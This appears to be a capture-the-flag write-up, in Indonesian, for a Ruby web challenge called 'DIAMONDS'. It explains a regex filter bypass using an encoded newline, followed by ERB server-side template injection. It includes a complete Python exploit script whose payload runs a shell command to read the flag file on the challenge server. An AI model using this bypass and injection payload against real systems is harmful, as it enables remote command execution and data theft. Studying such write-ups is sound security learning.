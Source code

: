 ## DIAMONDS

Note: Perlu kita ketahui bahwa website ini dibuat menggunakan ruby

Website memfilter regex ekspression, dimana regex expression in tidak menghitung newline pada parameter yang diinputkan, mengakibatkan kita bisa membypass filter dengan menginputkan url encode "%0A" ke dalam http post requests.

contoh parameter post request untuk membypass regex

```
input=mabar%0A<ini tidak ke filter>
```


Setelah kita bypass kita mencoba salah satu common vulnerability yang biasanya terdapat dalam library WEB untuk bahasa pemrograman OOP yaitu SSTI

untuk payload saya mengambil dari website ini :https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

```python
import requests
import urllib.parse as up

URL = "http://01.linux.challenges.ctf.thefewchosen.com:57588"
class Exploit:
    def __init__(self, param, url=URL):
        self.session = requests.Session()
        # self.session.proxies = {'http': 'http://localhost:8080'}
        self.param = param
        self.url = url
        
    def payloadAndBypass(self, malcode):
        '''bypass regex expression with newline (e.g. \\n)'''
        bypass = "asd\n"
        payload = bypass+malcode
        return {"input":payload}
    
    def start(self):
        r = self.session.post(self.url, data=self.payloadAndBypass(self.param))
        return r.text


param = """<%= IO.popen('cat ./flag.txt').readlines()  %>"""

n = Exploit(param=param).start()
print(n)
```
### referensi
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md
